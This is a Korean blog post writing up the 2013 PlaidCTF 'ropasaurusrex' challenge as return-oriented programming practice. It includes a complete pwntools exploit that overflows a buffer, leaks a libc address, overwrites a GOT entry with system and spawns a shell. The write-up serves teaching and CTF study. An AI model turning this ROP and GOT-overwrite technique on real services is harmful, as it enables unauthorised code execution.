 ```yaml
---
layout: post
title: "2013 PlaidCTF ropasaurusrex Write up"
excerpt: "ROP를 공부하기 적합한 간단한 문제"
date: 2020-05-07
categories: [system, ctf]
comments: true
---
```


요세는 새로운 내용을 공부하는게 아닌 기존 지식들을 다시 되돌아보고 있는중이다. 이 문제는 워낙 rop를 공부할때 

유용하다고 평이 나있는 문제라 다시 풀어봤다.

1. binary

![image-20200515044725964](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20200515044725964.png)

2. code

![image-20200515044806221](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20200515044806221.png)

심볼이 없어서 함수명이 저렇게 출력된다. return을 하면서 read하는걸 이용하여 공격하면 될 것 같다.

3. gadget, plt , got , offset, bss

이제 익스를 위하여 드래곤볼을 해야한다. 

plt, got,symbol은 모두  pwntool의 기능을 이용하여 해결하였다.

```python
read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
wirte_got = e.got['write']
sys_offset = s.symbols['system']
read_offset = s.symbols['read']
```

gadget은 objdump를 사용했다.

![image-20200515045306690](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20200515045306690.png)

bss영역 주소는 readelf를 사용했다.

![image-20200515045246046](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20200515045246046.png)

4. exploit

```python
from pwn import *
e = ELF("./ropasaurusrex")
p = process("./ropasaurusrex")
s = ELF("/lib32/libc.so.6")

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
wirte_got = e.got['write']
sys_offset = s.symbols['system']
read_offset = s.symbols['read']
pppr = 0x80484b6
bss = 0x08049628

pay = 'A' *140
pay += p32(write_plt)
pay += p32(pppr)
pay += p32(1)
pay += p32(read_got)
pay += p32(4)

pay += p32(read_plt)
pay += p32(pppr)
pay += p32(0)
pay += p32(bss)
pay += p32(8)

pay += p32(read_plt)
pay += p32(pppr)
pay += p32(0)
pay += p32(read_got)
pay += p32(4)

pay += p32(read_plt)
pay += 'A' *4
pay += p32(bss)

p.sendline(pay)
read_addr = u32(p.recv(4))
libc = read_addr - read_offset
sys_addr = libc + sys_offset
p.send("/bin/sh")
p.sendline(p32(sys_addr))
p.interactive()

```

나만 그런진 모르겠는데 문제 아카이브를 받았을때 libc정보가 없었다. 그래서 libc-database를 이용하여 해당 libc를 구해서 풀었다. 

![image-20200515044617085](C:\Users\kangs\AppData\Roaming\Typora\typora-user-images\image-20200515044617085.png)

다음엔 원샷을 이용하여 해결하는 방법도 해보고싶다. 